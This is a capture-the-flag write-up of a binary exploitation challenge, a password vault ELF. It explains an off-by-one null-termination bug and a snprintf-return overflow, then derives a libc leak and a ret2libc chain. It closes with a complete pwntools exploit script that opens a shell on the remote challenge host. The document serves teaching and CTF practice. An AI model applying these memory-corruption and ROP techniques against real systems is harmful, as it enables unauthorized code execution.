


## Overview

This challenge consists in an ELF binary that allows a user to store hostnames (URLs) and passwords, it provides the following features: 
- `Add Entry`: given a URL and a password it saves them in an array, encrypting the password with a randomly generated key 
- `View Entries`: given an index the binary decrypts the password and prints it along with the URL

**NOTES:**
The "encryption" is a simple xor with the random key:
```c
v7 = pw_len - 1;
if (pw_len > 0 ) {
	do {
	  password[i] ^= global_key[i & 0x3F];
	  v8 = i++;
	}while ( v8 != v7 );
}
```

URLs and passwords get saved in structs:
```c
struct entry {
	char host[128];
	char password[256];
	size_t pw_len;
};
```
These structs reside within a global array of size 9.

## Vulnerabilities

Before saving an hostname inside the array the URL gets parsed:
```c
char *__fastcall parse_hostname(char *buf)
{
  char *result; // rax
  char *hostname; // [rsp+18h] [rbp-28h]
  size_t len_hostname; // [rsp+20h] [rbp-20h]
  char *urll; // [rsp+30h] [rbp-10h]
  char *hostname_noport; // [rsp+38h] [rbp-8h]

  hostname = url;
  urll = strstr(url, "://");
  if ( urll )
    hostname = urll + 3;
  hostname_noport = strchr(hostname, ':');
  if ( hostname_noport )
  {
    len_hostname = hostname_noport - hostname;
    if ( (unsigned __int64)(hostname_noport - hostname) > 0x80 )
      len_hostname = 127LL;
    strncpy(buf, hostname, len_hostname);
    result = &buf[len_hostname];
    buf[len_hostname] = 0;
  }
  else
  {
    strncpy(buf, hostname, 0x80uLL);
    result = buf + 127;
    buf[127] = 0;
  }
  return result;
}
```
`url` is a global string of size 256 bytes that contains the inputted URL.

What this function does is simply extracting the hostname from a URL, removing the protocol and the port (if present) and saving it inside `buf` . 
For example: `https://leo1.cc:443` -> `leo1.cc`

As `buf` is 128 bytes long (it's basically `entry.host` within the struct), if the length of the hostname is exactly 128 bytes + ":" it passes the size check but gets null-terminated in the 129th byte. This is due to the `(hostname_noport - hostname) > 0x80`, which should have been `>= 0x80`.
As the password is saved in the struct after the hostname, the null byte of the latter gets overwritten by the password itself. 
This leads to a buffer overflow in the `view_entries` function.

Let's take a step back and look more closely at the `view_entries` function.
```c
char msg[384];
...

entry = &entries[idx];
password = entry->password;
msg_size = snprintf(msg, 0x180uLL, "Hostname:  %s\nPassword:    ", entry->host);
pw_len = entry->pw_len;
v4 = &msg[msg_size];
pw_space = 384LL - msg_size;
i = 0LL;
v7 = pw_len - 1;

// in-memory xor
if (pw_len > 0 ) {
	do {
	  password[i] ^= global_key[i & 0x3F];
	  v8 = i++;
	}
	while ( v8 != v7 );
}

pw_len_1 = strlen(password);
if ( pw_len_1 > pw_space )
	pw_len_1 = pw_space;

memcpy(v4, password, pw_len_1); // memcpy is just for semplification
msg[383] = 0;
puts(msg);
```

What this code does is it prepares the `msg` buffer and then prints it.
This is a weird approach and stands out. Also note that the password is appended to the buffer and that this is done using `msg_size`, the return value of `snprintf`.
As we created an hostname which is not null-terminated (so it's basically the concatenation of hostname and password), `msg_size` can be bigger than 384, leading to an overflow.

The reason is written in the [man page](https://linux.die.net/man/3/snprintf) of `snprintf`:
```
If the output was truncated due to this limit then the return value is the number of characters (excluding the terminating null byte) which would have been written to the final string if enough space had been available.
```

As `v4 = &msg[msg_size];` the password can be written at an offset from the end of `msg` on the stack, jumping even the the canary if we want!

## Exploitation

### Overflowing the stack
Based on these vulnerabilities I wrote a simple payload to override stuff after the canary with some good old "A"s.
```python
hostname = b"B"*128 + b":" 
password = b"A"*255
```
What happens here is that the length returned by snprintf is greater than the size of `msg`, so our password gets written just after the canary. But now, what's after the canary?

Well, some saved registers and the return address of course!
```
pop     rbx
pop     r12
pop     r13
pop     r14
pop     r15
retn
```

```
00:0000│     0x7fffffffe4f8 ◂— 0x34e276c4e7dbf600
01:0008│ rsp 0x7fffffffe500 —▸ 0x7fffffffe534 ◂— 0xe7dbf60000000002
02:0010│     0x7fffffffe508 —▸ 0x555555556650 ◂— 0x632a25642500203e /* '> ' */
03:0018│     0x7fffffffe510 —▸ 0x555555556648 ◂— 0x74697845202e33 /* '3. Exit' */
04:0020│     0x7fffffffe518 —▸ 0x555555556638 ◂— '2. View Entries'
05:0028│     0x7fffffffe520 —▸ 0x55555555662b ◂— '1. Add Entry'
06:0030│     0x7fffffffe528 —▸ 0x555555555327 ◂— jmp 0x555555555250
```
As you can see these registers contain char* that will be used to print the banner in the `main` function. 

### Leaking libc
These saved registers are really useful when it comes to leaking stuff, as we can partially override one of those to make it point to a libc address somewhere inside the binary and leak it!
This requires 4 bits of brute-force, due to the fact that the nearest libc address to one of those strings resides in the GOT section of the binary, so we need to perform a partial-override of 2 bytes. ASLR is enabled and it randomizes every bit of the address, except the last 12, that's why we need to brute-force the remaining 4 bits.

It turns out that we cannot simply write a payload like
```python
hostname = b"A"*128 + b":"
password = p16(0x7F70) # partial override
```
This is because the password is not long enough to trigger the overflow.
We cannot add stuff after the password, otherwise we would break the partial-override, so now what?

Well, xor comes to the rescue!
The xor mechanism works as sort of toggle: every time an entry gets viewed the password is xored in memory. This means that viewing an entry twice will leak the xored password and, as we obviously know the original password, we can leak the key.
```python
r = conn()
add_entry(r,b"A" * 255, b"B" * 255)
view_entry(r,0) # view first time
hostname, password = view_entry(r,0) # view second time
key = xor(password, b"B" * 255)[:64]
```

Now we can write an encrypted payload that upon decryption contains null bytes
```python
password = p16(0x7F70) + b"\x00"*253 # requires 4 bit bruteforce (0x7)
password = xor(password, key)[:3] + b"a"*252
```
This way we can submit a 255 bytes long password to `scanf`, but when viewing it it'll get xored with the key and become our partial-override payload!


#### Avoid scanf headaches
This approach is not entirely reliable as sometimes `xor(password, key)` contains characters that stop the `scanf`. To avoid headaches I wrote a script to find these characters (yeah, I could have RTFM, but this way was faster).
```python
for i in range(256):
	r = conn()
	r.sendlineafter(b">", b"1")
	r.sendlineafter(b":", b"a")
	payload = b"a" + i.to_bytes() + b"a"
	r.sendlineafter(b":", payload)
	
	r.recvuntil(b">")
	if r.recvuntil(b">", timeout=0.1) != b"":
		print(i.to_bytes().hex())
	r.close()
```
And the result was the following:
```python
assert b"\x00" not in payload
assert b"\x0a" not in payload
assert b"\x0d" not in payload
assert b"\x0b" not in payload
assert b"\x0c" not in payload
assert b"\x20" not in payload
assert b"\x09" not in payload
```

### The tedious path to RCE
With a libc leak and the ability to override the return address it should be easy to achieve RCE, right?
Well, no.

We are not allowed to write more than one null byte in our payload, that's because the first one terminates the password string:
```c
pw_len_1 = strlen(password);
if ( pw_len_1 > pw_space )
	pw_len_1 = pw_space;

memcpy(v4, password, pw_len_1);
```
`strlen` calculates the length of a null-terminated string, so no chance of writing multiple null bytes.

So now it's gadget time :/

Upon returning from `view_entries` the registers are set as follows:

`0xdeaddeadbeef` is our fake return address, but we also control `r12`, `r13`, `r14`, `r15` thanks to the 5 pops before return. As I explained above the values of these registers can't contain null bytes, otherwise it terminates the string and the next part of the payload won't be written.

Unfortunately there are no onegadgets that work, mainly because `rbp` is set to 1.
5
In the end I came across a really interesting thing: looking at the disassembly of `do_system` I noticed that it moves the first argument (`rdi`) inside `rbx` before using it.
```
pwndbg> disass do_system
Dump of assembler code for function do_system:
	0x00007ffff7c50900 <+0>:	push   r15
	...
	0x00007ffff7c5092b <+43>:	mov    rbx,rdi
	...
```
This gave me an idea, what if that depends on the compiler and every libc function does that before using the contents of `rdi`?

Looking at `gets` it turns out it does!
```
pwndbg> disass gets
Dump of assembler code for function _IO_gets:
Address range 0x7ffff7c80520 to 0x7ffff7c80699:
   0x00007ffff7c80520 <+0>:	endbr64
   0x00007ffff7c80524 <+4>:	push   r13
   0x00007ffff7c80526 <+6>:	push   r12
   0x00007ffff7c80528 <+8>:	push   rbp
   0x00007ffff7c80529 <+9>:	push   rbx
   0x00007ffff7c8052a <+10>:	mov    rbx,rdi // MOVES RDI in RBX!!!
   0x00007ffff7c8052d <+13>:	sub    rsp,0x18
```

As `rbx` points on the stack just after `rsp`, if we jump at `gets+13` we are basically calling `gets(rbx)` and writing on the stack frame of gets. 
We can override it's return address and create a ret2libc payload. We aren't restricted by null bytes this time!

### Final expolit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("vault_patched")
libc = ELF("glibc/libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe
context.terminal = ["alacritty", "-e"]

NC_CMD = "nc 94.237.59.147 52373"
gdbscript = \
"""
breakrva 0x1843
"""

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript=gdbscript, aslr=False)
    else:
        r = remote(NC_CMD.split(" ")[1], int(NC_CMD.split(" ")[2]))

    return r

def add_entry(r, url: bytes, password: bytes):
    sleep(0.1)
    r.sendline(b"1")
    r.sendlineafter(b"URL: ", url)
    r.sendlineafter(b"Password: ", password)


def view_entry(r, index: int):
    sleep(0.1)
    r.sendline(b"2")
    r.sendlineafter(b"Index: ", str(index).encode("ascii"))

    r.recvuntil(b"Hostname:  ")
    hostname = r.recvline().strip()

    r.recvuntil(b"Password:    ")
    password = r.recvline()
    return hostname, password

def main():

    r = conn()
    
    add_entry(r,b"A" * 255, b"B" * 255)
    view_entry(r,0)

    hostname, password = view_entry(r,0)
    key = xor(password, b"B" * 255)[:64]

    log.success(f"key: {key.hex()}")

    # insert a password 255 chars long that xored with the key results in a \x00 at position 3
    payload =  p16(0x7F70) + b"\x00"*253
    payload = xor(payload, key)[:3] + b"a"*252
    assert b"\x00" not in payload
    assert b"\x0a" not in payload
    assert b"\x0d" not in payload
    assert b"\x0b" not in payload
    assert b"\x0c" not in payload
    assert b"\x20" not in payload
    assert b"\x09" not in payload
    print(payload)
    add_entry(r, b"A" * 128 + b":", payload)
    hostname, password = view_entry(r, 1)
    r.sendlineafter(b"> ", b"2")
    r.sendlineafter(b"Index: ", str(1).encode("ascii"))
    r.recvuntil(b"Exit\n")
    libc.address = u64(r.recv(6) + b"\x00"*2) - 0x80e50
    log.warning(f"libc: {hex(libc.address)}")

    payload =  b"G"*32 + p64(libc.sym.gets+13)[:6] + b"\x00"*217
    payload = xor(payload, key)[:39] + b"a"*216
    assert b"\x00" not in payload
    assert b"\x0a" not in payload
    assert b"\x0d" not in payload
    assert b"\x0b" not in payload
    assert b"\x0c" not in payload
    assert b"\x20" not in payload
    assert b"\x09" not in payload
    add_entry(r, b"A" * 128 + b":", payload)
    hostname, password = view_entry(r, 2)

    sleep(0.1)
    r.sendline(b"2\n2")
    sleep(0.1)

    POP_RDI = libc.address + 0x000000000002a3e5
    RET = libc.address + 0x00000000000f410b
    BINSH = libc.address + 0x1d8678
    ret2libc = b"A"*28 + flat(POP_RDI, BINSH, libc.sym.system)
    r.sendline(ret2libc)
    sleep(0.1)
    r.sendline("ls")
    r.sendline("cat flag.txt")
    
    r.interactive()


if __name__ == "__main__":
    main()
```

**FLAG**: `HTB{Fm7_S7r1Ng_T0_0n3_G4dG37_1S_Th3_1337_W4y}`

### Intended solve
As the flag suggests this was not the intended solution. 
From what I understood after the end of the CTF the intended way of exploiting the overflow was to mess with the `printf` used in the `main` function by making `r12` point to some user inputted format string payload.
